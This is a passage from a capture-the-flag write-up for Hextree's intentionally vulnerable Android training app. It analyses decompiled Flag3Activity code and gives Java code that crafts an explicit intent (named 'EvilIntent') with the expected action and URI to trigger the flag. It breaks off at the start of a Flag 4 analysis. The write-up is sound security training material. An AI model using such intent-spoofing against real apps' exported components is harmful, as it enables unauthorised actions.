 Here the filter checks for 2 values 
- action name 
- specific data / content -> url that is https protocol

```java
	Intent intent = getIntent();
	String action = intent.getAction();
	if (action == null || !action.equals("io.hextree.action.GIVE_FLAG")) {
           return;
	    }
	this.f.addTag(action);
	Uri data = intent.getData();
	if (data == null || !data.toString().equals("https://app.hextree.io/map/android")) {
           return;
	    }
	this.f.addTag(data);
    success(this);
```

An intent will be received and its action will be checked and then data is saved in variable of type Uri and then checked after converted to string and if it's the same, condition will be escaped and success is called.

#### Solution
From our analysis:
- package= **"io.hextree.attacksurface"**
- Intent action: `"io.hextree.action.GIVE_FLAG"`
- data : "https://app.hextree.io/map/android"
- class name : **io.hextree.attacksurface.activities.Flag3Activity

```java
Intent EvilIntent = new Intent();
EvilIntent.setComponent(new ComponentName(
 "io.hextree.attacksurface",
 "io.hextree.attacksurface.activities.Flag3Activity"
)); 
EvilIntent.setAction("io.hextree.action.GIVE_FLAG");
EvilIntent.setData(Uri.parse("https://app.hextree.io/map/android"));
startActivity(EvilIntent);  
```

### Flag 4
#### Code analysis
```java
public void onCreate(Bundle bundle) {
        super.onCreate(bundle);
        this.f = new LogHelper(this);
        stateMachine(getIntent());
    }
```

The constructor is called for `onCreate()` method and `starMachine()` is called and the received intent is passed to it 
